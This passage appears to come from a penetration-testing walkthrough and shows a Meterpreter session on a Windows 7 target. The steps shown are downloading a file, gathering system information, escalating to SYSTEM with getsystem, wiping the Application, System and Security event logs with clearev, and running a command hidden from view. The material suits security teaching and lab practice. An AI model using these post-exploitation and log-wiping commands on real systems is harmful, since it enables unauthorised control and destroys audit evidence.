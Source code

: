 Ok, now I will download something on my machine:

``` plain
meterpreter > download desktop.ini
[*] downloading: desktop.ini -> desktop.ini
[*] download   : desktop.ini -> desktop.ini
meterpreter > cat desktop.ini
��
[.ShellClassInfo]
LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21813
```

Let's now look at some system information:

``` plain
meterpreter > sysinfo
Computer        : WIN-D7GA2J1M0TU
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/win64
```

I attempted to get system privileges and it worked:

``` plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

It's possible to clear the event log of the machine, though that is anything but stealthy:

``` plain
meterpreter > clearev
[*] Wiping 1583 records from Application...
[*] Wiping 5436 records from System...
[*] Wiping 1422 records from Security...
```

We can also execute native commands on the target:

``` plain
meterpreter > execute -h
Usage: execute -f file [options]

Executes a command on the remote machine.

OPTIONS:

    -H        Create the process hidden from view.
    -a <opt>  The arguments to pass to the command.
    -c        Channelized I/O (required for interaction).
    -d <opt>  The 'dummy' executable to launch when using -m.
    -f <opt>  The executable command to run.
    -h        Help menu.
    -i        Interact with the process after creating it.
    -k        Execute process on the meterpreters current desktop
    -m        Execute from memory.
    -s <opt>  Execute process in a given session as the session user
    -t        Execute process with currently impersonated thread token

meterpreter > execute -f "ipconfig /flushdns" -i -H
Process 2016 created.
Channel 3 created.

```